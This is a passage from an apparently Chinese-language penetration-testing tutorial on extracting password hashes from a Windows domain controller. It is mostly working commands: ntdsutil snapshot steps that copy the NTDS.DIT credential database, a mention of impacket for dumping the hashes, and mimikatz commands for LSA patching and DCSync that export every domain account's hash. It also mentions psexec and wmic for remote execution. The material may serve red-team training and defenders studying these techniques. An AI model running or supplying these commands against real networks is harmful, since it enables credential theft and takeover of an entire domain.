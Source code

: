 ![image.png](https://image.3001.net/images/20200304/15833020341597.png!small)

​    注入成功后，可以使用psexec、wmic、wmiexec等实现远程执行命令。

###     3.4导出域成员Hash

​    域账户的用户名和hash密码以域数据库的形式存放在域控制器的%SystemRoot%\ntds\NTDS.DIT文件中。

​    ![image.png](https://image.3001.net/images/20200304/15833020426925.png!small)

​    ntdsutil.exe是域控制器自带的域数据库管理工具，因此我们可以通过域数据库，提取出域中所有的域用户信息，在域控上依次执行如下命令，导出域数据库。

​    创建快照：

```
ntdsutil snapshot "activate instance ntds" create quit quit
```

​    ![image.png](https://image.3001.net/images/20200304/158330205415.png!small)

​    加载快照：

```
ntdsutil snapshot "mount {72ba82f0-5805-4365-a73c-0ccd01f5ed0d}" quit quit
```

​    ![image.png](https://image.3001.net/images/20200304/15833020647870.png!small)

​    Copy文件副本：

```
copy C:\$SNAP_201911211122_VOLUMEC$\windows\NTDS\ntds.dit c:\ntds.dit
```

​    ![image.png](https://image.3001.net/images/20200304/15833020748012.png!small)

​    将ntds.dit文件拷贝到本地利用impacket脚本dump出Hash：

​    ![image.png](https://image.3001.net/images/20200304/15833020816765.png!small)

​    最后记得卸载删除快照：

```
ntdsutil snapshot "unmount {72ba82f0-5805-4365-a73c-0ccd01f5ed0d}" quit quit    ntdsutil snapshot "delete  {72ba82f0-5805-4365-a73c-0ccd01f5ed0d}" quit quit
```

​    **3.4.1mimikatz导出域内hash**

​    mimikatz有两种方式可以导出域内hash。

​    1、直接在域控制器中执行Mimikatz，通过lsass.exe进程dump出密码哈希。

```
privilege::debug
lsadump::lsa /patch
```

​    ![image.png](https://image.3001.net/images/20200304/1583302107796.png!small)

​    另外一种方式是通过dcsync，利用目录复制服务（DRS）从NTDS.DIT文件中检索密码哈希值，可以在域管权限下执行获取。

```
lsadump::dcsync /domain:test.com /all /csv
```
